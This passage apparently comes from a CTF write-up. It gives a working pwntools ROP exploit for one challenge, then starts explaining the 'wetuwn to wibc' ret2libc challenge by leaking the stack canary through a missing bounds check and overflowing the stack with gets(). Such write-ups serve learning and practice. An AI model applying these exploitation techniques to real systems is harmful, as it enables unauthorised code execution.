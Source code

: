 my exp.py
```
io = start()

ret_addr = exe_rop.find_gadget(['ret'])[0]
pop_rdi_ret_addr = exe_rop.find_gadget(['pop rdi', 'ret'])[0]

stack = flat({
    0x70+8: [
        ret_addr,
        exe.sym["A"],
        exe.sym["B"],
        pop_rdi_ret_addr,
        0xdeadbeef,
        exe.sym["C"],
        exe.sym["win"],
    ],
},filler=b'\x00',length=0x100)

io.sendlineafter(b"uwu owo rawrxd", stack)

io.interactive()
```

---

## wetuwn to wibc

this is a very classic **ret-2-libc** question. If you want to see more about ret2libc, check out this [oversight](/2021/10/09/ductf2021-pwn-oversight/) challenge

first, lets check mitigations. We can see all the protection has enabled. including canary. 

```
#    Arch:     amd64-64-little
#    RELRO:    Full RELRO
#    Stack:    Canary found
#    NX:       NX enabled
#    PIE:      PIE enabled
```

lets take look at the [source code](./uploads/wetuwn-to-wibc.c).

There is a very trivial bug here, is it didn't check for the upper bound. So, we can leak canary here. 

Moreover, after getting the canary value, we can just use `gets` to overwrite the whole stack.

Since we take control of the whole stack, we just write the canary using the canary value we get from previous step

```
if (input >= 0 && input < sizeof uwus) {
    printf("This UwU'er has UwU'ed %llu times!\n", uwus[input]);
} else {
    puts("Error: index out of bounds.");
}
...
...
gets(comment);

```
